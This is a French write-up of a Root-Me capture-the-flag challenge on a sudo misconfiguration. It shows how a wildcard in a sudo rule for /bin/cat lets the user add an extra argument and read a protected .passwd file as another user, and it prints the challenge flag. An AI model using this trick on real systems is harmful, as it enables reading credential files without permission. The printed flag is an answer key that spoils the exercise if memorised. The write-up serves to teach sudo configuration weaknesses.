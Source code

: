 ## Source et énoncé du CTF

<https://www.root-me.org/fr/Challenges/App-Script/sudo-faiblesse-de-configuration>

## Write-up

En se rapportant au titre du challenge, on en déduit que le but du CTF va être d'exploiter une faiblesse dans la configuration *sudo* de la machine.

Le répertoire de travail contient les éléments suivants :
```console
app-script-ch1@challenge02:~$ ls -la
total 28
dr-xr-x---  4 app-script-ch1-cracked app-script-ch1         4096 Dec 10  2021 .
drwxr-xr-x 25 root                   root                   4096 Sep  5  2023 ..
-r--------  1 root                   root                    921 Dec 10  2021 ._perms
-rw-r-----  1 root                   root                     42 Dec 10  2021 .git
dr-xr-x--x  2 app-script-ch1-cracked app-script-ch1-cracked 4096 Dec 10  2021 ch1cracked
dr-xr-x--x  2 app-script-ch1-cracked app-script-ch1         4096 Dec 10  2021 notes
-rw-r-----  1 app-script-ch1         app-script-ch1          217 Dec 10  2021 readme.md
```

En affichant le contenu du fichier *readme.md*, l'objectif du challenge se précise. Il s'agira d'afficher le contenu du fichier */challenge/app-script/ch1/ch1cracked/.passwd* :
```console
app-script-ch1@challenge02:~$ cat readme.md
Vous devez réussir à lire le fichier .passwd situé dans le chemin suivant :
/challenge/app-script/ch1/ch1cracked/

You have to read the .passwd located in the following PATH :
/challenge/app-script/ch1/ch1cracked/
```

On peut commencer par afficher les droits *sudo* de l'utilisateur *app-script-ch1* :
```console
app-script-ch1@challenge02:~$ sudo -l
[sudo] password for app-script-ch1:
Matching Defaults entries for app-script-ch1 on challenge02:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, !mail_always, !mail_badpass,
    !mail_no_host, !mail_no_perms, !mail_no_user

User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/notes/*
```
On remarque que *app-script-ch1* possède un seul droit *sudo*, celui d'exécuter la commande */bin/cat /challenge/app-script/ch1/notes/* * en tant que l'utilisateur *app-script-ch1-cracked* :
```console
app-script-ch1@challenge02:~$ sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/*
#####################
        Todo

- Change DHCP pool
- Change IP routing
- Beef up the fw
```
Mais cela ne nous apporte pas grand chose étant donné que le contenu de ce fichier ne contient aucune information exploitable.

Cependant, en se renseignant sur le fonctionnement de la commande *sudo* et la délégation de droits *sudo*, on trouve que *sudo* ne fait pas une vérification stricte de la commande passée par l'utilisateur. *sudo* vérifie seulement si la commande passée par l'utilisateur contient la commande et les arguments définis dans la délégation de droits *sudo*. En clair, rien n'empêche d'ajouter un argument à la commande */bin/cat* pour peu qu'elle contienne en premier argument */challenge/app-script/ch1/notes/**. 
```console
app-script-ch1@challenge02:~$ sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/* ch1cracked/.passwd
#####################
        Todo

- Change DHCP pool
- Change IP routing
- Beef up the fw
b3_c4r3ful_w1th_sud0
```
On peut ainsi exploiter cette faiblesse de configuration pour afficher le contenu du fichier *ch1cracked/.passwd*, dont *app-script-ch1-cracked* possède les droits en lecture et que *app-script-ch1* ne possède pas.

## Flag

b3_c4r3ful_w1th_sud0